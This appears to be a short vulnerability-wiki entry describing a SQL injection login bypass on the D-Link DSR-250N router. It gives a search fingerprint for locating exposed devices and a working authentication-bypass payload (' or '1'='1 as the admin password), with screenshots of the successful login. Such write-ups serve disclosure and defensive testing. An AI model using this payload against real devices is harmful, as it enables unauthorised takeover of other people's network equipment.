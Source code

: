 # D-Link DSR-250N SQL injection vulnerability

## Vulnerability Description

D-Link DSR-250N has a universal password vulnerability, and attackers can obtain background permissions through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-Link DSR-250N</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="D_Link-DSR-250N"</span>

## Vulnerability reappears

The login page is as follows



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210609175053339.png)



```plain
user: admin
pass: ' or '1'='1
```

Log in to the background successfully



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210609175150907.png)

